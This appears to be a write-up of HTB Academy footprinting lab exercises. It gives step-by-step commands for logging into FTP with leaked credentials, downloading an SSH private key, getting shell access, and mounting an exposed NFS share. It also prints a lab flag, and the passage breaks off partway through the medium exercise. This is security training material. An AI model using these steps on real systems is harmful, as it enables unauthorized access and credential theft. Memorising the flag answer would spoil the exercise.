 #### Footprinting Lab - Easy

We were commissioned by the company `Inlanefreight Ltd` to test three different servers in their internal network. The company uses many different services, and the IT security department felt that a penetration test was necessary to gain insight into their overall security posture. The first server is an internal DNS server that needs to be investigated. In particular, our client wants to know what information we can get out of these services and how this information could be used against its infrastructure. Our goal is to gather as much information as possible about the server and find ways to use that information against the company. However, our client has made it clear that it is forbidden to attack the services aggressively using exploits, as these services are in production. Additionally, our teammates have found the following credentials "ceil:qwer1234", and they pointed out that some of the company's employees were talking about SSH keys on a forum. The administrators have stored a `flag.txt` file on this server to track our progress and measure success. Fully enumerate the target and submit the contents of this file as proof.

**Enumerate the server carefully and find the flag.txt file. Submit the contents of this file as the answer.**

```
ftp $ip -p 2121
# enter user `ceil` and password `qwer1234`

ls -la
cd .ssh
get id_rsa ~/.ssh/
quit

chmod 600 ~/.ssh/id_rsa
ssh -i ~/.ssh/id_rsa ceil@$ip
find / -name flag.txt 2>/dev/null
cat /home/flag/flag.txt
```

Results:  HTB{7nrzise7hednrxihskjed7nzrgkweunj47zngrhdbkjhgdfbjkc7hgj}


#### Footprinting Lab - Medium

This second server is a server that everyone on the internal network has access to. In our discussion with our client, we pointed out that these servers are often one of the main targets for attackers and that this server should be added to the scope. Our customer agreed to this and added this server to our scope. Here, too, the goal remains the same. We need to find out as much information as possible about this server and find ways to use it against the server itself. For the proof and protection of customer data, a user named `HTB` has been created. Accordingly, we need to obtain the credentials of this user as proof.

**Enumerate the server carefully and find the username "HTB" and its password. Then, submit this user's password as the answer.**

```
sudo nmap -sS -sV -top-ports 4000 $ip

# We will attack firts service 2049
showmount -e $ip
mkdir target-NFS
sudo mount -t nfs $ip:/ ./target-NFS/ -o nolock
cd target-NFS

sudo ls -la
sudo ls -la TechSupport
sudo cat TechSupport/ticket4238791283782.txt
```
